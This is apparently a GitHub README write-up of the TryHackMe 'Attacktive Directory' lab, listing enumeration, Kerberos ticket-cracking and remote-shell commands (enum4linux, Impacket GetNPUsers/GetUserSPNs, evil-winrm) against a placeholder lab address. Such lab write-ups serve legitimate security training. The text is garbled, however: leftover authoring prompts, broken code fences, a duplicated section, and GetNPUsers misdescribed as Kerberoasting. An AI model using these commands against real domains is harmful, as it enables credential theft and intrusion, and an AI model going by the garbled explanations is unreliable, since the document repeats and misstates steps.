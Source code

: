 # 🏢 TryHackMe: Attacktive Directory

This repository contains my detailed write-up of the **"Attacktive Directory"** room on TryHackMe. This room focuses on **Active Directory enumeration and exploitation**, using common misconfigurations and techniques seen in real-world enterprise environments.

---

## 🧾 Room Info

- **Platform**: TryHackMe  
- **Room**: [Attacktive Directory](https://tryhackme.com/room/attacktivedirectory)  
- **Difficulty**: Medium  
- **Focus**: Active Directory, SMB enumeration, Kerberoasting, Privilege Escalation  
- **Status**: ✅ Completed

---

## 🛠️ Tools Used

- `nmap`
- `smbclient`
- `enum4linux`
- `rpcclient`
- `crackmapexec`
- `impacket` (`GetNPUsers.py`, `GetUserSPNs.py`)
- `john` or `hashcat`
- `evil-winrm`

---

## 🔍 1. Enumeration

### 🔎 Nmap Scan
```bash
nmap -sC -sV -T4 -p- 10.10.x.x

- **Explanation**:  
  - **Nmap Scan**: Scans the network to find out which ports and services are open on the target.
  - The IP address `10.10.x.x` should be replaced with the actual IP of the target.

---

#### 6. **SMB & LDAP Enumeration**  
Here, you'll explain how you gathered information about users and resources using **SMB** and **LDAP**.

```markdown
## 📁 2. SMB & LDAP Enumeration

Using **enum4linux**, I performed SMB enumeration to gather information about users and groups on the domain:

```bash
enum4linux -a 10.10.x.x
rpcclient -U "" 10.10.x.x
> enumdomusers
smbclient -L \\\\10.10.x.x\\

- **Explanation**:  
  - **enum4linux**: A tool used to enumerate information from SMB shares.
  - **rpcclient**: A tool used to interact with Windows SMB.
  - **smbclient**: A command-line tool to list shared folders on Windows machines.

---

#### 7. **Kerberoasting**  
Explain how you performed **Kerberoasting** to extract service account credentials.

```markdown
## 🔐 3. Kerberoasting

### Kerberoasting Attack

I used **GetNPUsers.py** from the **Impacket** suite to attempt Kerberoasting:

```bash
GetNPUsers.py -no-pass -dc-ip 10.10.x.x 'domain.local/username'
GetUserSPNs.py domain.local/username:password -dc-ip 10.10.x.x

- **Explanation**:  
  - **Kerberoasting** is an attack where you request service tickets (TGS) and try to crack them to get the service account passwords.
  - **Impacket** tools are used for this process.

---

#### 8. **Gaining Access**  
This is where you explain how you exploited the information you gathered to **gain access** to the system.

```markdown
## 💥 4. Gaining Access

After successfully cracking some SPNs, I obtained valid credentials and used **Evil-WinRM** to gain a remote PowerShell shell on the machine:

```bash
evil-winrm -i 10.10.x.x -u user -p password
GetUserSPNs.py domain.local/username:password -dc-ip 10.10.x.x

- **Explanation**:  
  - **Kerberoasting** is an attack where you request service tickets (TGS) and try to crack them to get the service account passwords.
  - **Impacket** tools are used for this process.

---

#### 8. **Gaining Access**  
This is where you explain how you exploited the information you gathered to **gain access** to the system.

```markdown
## 💥 4. Gaining Access

After successfully cracking some SPNs, I obtained valid credentials and used **Evil-WinRM** to gain a remote PowerShell shell on the machine:

```bash
evil-winrm -i 10.10.x.x -u user -p password

- **Explanation**:  
  - **Evil-WinRM** is a tool used to get remote access to Windows machines via **WinRM**.

---

#### 9. **Privilege Escalation**  
Explain how you elevated your privileges once you had access to the system.

```markdown
## 🔼 5. Privilege Escalation

Once I had access, I used several techniques to escalate privileges:
- **Unquoted service paths**
- **Using tools like winPEAS and Seatbelt.exe** to identify possible privilege escalation vectors
- **Exploiting service misconfigurations** to escalate to **SYSTEM** privileges
## 🧠 Key Takeaways

- **Kerberoasting** is an effective attack technique for obtaining service account credentials.
- **Impacket**'s tools like `GetNPUsers.py` and `GetUserSPNs.py` are invaluable for **Active Directory enumeration** and **Kerberoasting**.
- **Evil-WinRM** is a great tool for obtaining remote access to Windows machines post-exploitation.
- Privilege escalation often relies on finding **misconfigurations** or vulnerabilities in Windows services.
## 📬 Contact

- **GitHub**: [Your GitHub](https://github.com/tanmoydaw26)
